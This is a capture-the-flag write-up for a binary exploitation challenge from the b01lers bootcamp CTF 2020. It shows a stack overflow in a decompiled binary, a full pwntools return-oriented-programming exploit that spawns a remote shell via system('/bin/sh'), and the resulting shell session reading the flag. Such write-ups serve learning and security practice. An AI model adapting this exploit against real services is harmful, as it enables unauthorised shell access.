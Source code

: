 # b01lers bootcamp CTF 2020

## See for Yourself

> 200
>
> The matrix requires a more advanced trick this time. Hack it.
>
> `nc chal.ctf.b01lers.com 1008`
> 
> [simplerop](simplerop)  
> [simplerop.c](simplerop.c)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _rop_


## Summary

Very basic ROP, with parts included.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Not a lot in place.  Perfect for ROP.


### Decompile with Ghidra

```c
int main(void)
{
  char *shellcode [1];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  system((char *)0x0);
  puts("Unfortunately, no one can be told what the Matrix is. You have to see it for yourself.");
  read(0,shellcode,0x40);
  return 0;
}
```

The binary comes with `system` "built-in".  The question is, _is `/bin/sh` also there?_

```
# strings simplerop | grep /bin/sh
/bin/sh
```

Yep.

All that we need to know how is how far `shellcode` is from the return address on the stack:

```
char *[1]         Stack[-0x8]:8      shellcode
```

`8`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./simplerop')
binary.plt['system'] = 0x401080 # see .plt.sec in ghidra or GDB output
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1008)

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = 0x8 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(binary.search(b'/bin/sh').__next__())
payload += p64(binary.plt.system)

p.sendline(payload)
p.interactive()
```

Normally I get any linked in function with `binary.plt.functionname`, but newer libc I assume moved that to `.plt.sec` and pwntools does not search that (yet).  After finding with Ghidra and checking with GDB, I just manually added the location.

The rest is standard fare CTF no-PIE ROP:

1. Find a `pop rdi` gadget
2. Create a payload to call `system`

> The `pop_rdi + 1` = `ret` and is there to align the stack for `system`.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/see_for_yourself/simplerop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.ctf.b01lers.com on port 1008: Done
[*] Loaded 13 cached gadgets for './simplerop'
[*] Switching to interactive mode
Unfortunately, no one can be told what the Matrix is. You have to see it for yourself.
$ id
uid=1000(simplerop) gid=1000(simplerop) groups=1000(simplerop)
$ ls -l
total 36
-r-xr-x--- 1 root simplerop    89 Oct  2 18:33 Makefile
-r--r----- 1 root simplerop    24 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root simplerop 19672 Oct  3 04:08 simplerop
-r-xr-x--- 1 root simplerop   339 Oct  2 18:33 simplerop.c
-r-xr-x--- 1 root simplerop    47 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{ROP_ROOP_OOP_OOPS}
```

